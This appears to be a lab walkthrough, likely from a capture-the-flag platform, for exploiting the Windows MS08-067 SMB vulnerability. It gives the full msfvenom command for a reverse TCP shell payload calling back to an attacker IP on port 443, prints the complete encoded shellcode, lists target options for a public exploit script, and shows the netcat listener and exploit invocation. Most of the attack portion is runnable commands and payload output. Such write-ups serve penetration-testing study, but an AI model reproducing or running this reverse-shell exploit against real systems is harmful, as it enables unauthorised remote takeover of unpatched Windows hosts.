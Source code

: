 # MS08-067


Reference:
https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN

![image](https://user-images.githubusercontent.com/66146701/199320162-acc77a25-a1d5-4b1b-9ac3-27094abbbf42.png)

### Shellcode Generation

We will use `msfvenom` to genarate the shellcode.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

```
-p windows/shell_reverse_tcp - This will connect back to me with a shell.
    
LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread - defining the variables for the payload - my ip, the port, and how to exit.

-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.

-f py - Output in python format.

-v shellcode - Have the code set the variable shellcode, instead of the default, buf. I want this to match what it’s called in the code I’m using.

-a x86 and --platform windows - Describing the environment I’m attacking.
```


<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1872 bytes
shellcode =  ""
shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"
</code></pre></div></div>

<p>Will take this shellcode into the script, and paste it in replacing the default.</p>

### Guess Version

The exploit requires the version of Windows and the Language pack:

```
Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
```

### Run Exploit

```
nc -nlvp 443
```

```
python3 exploit.py 10.129.134.210 6 445
```
![image](https://user-images.githubusercontent.com/66146701/199322582-c1530a6e-da3a-47f5-bc7c-de2d2adfa82d.png)

![image](https://user-images.githubusercontent.com/66146701/199322800-3e1d2887-673d-4031-9926-724424d5b6c1.png)

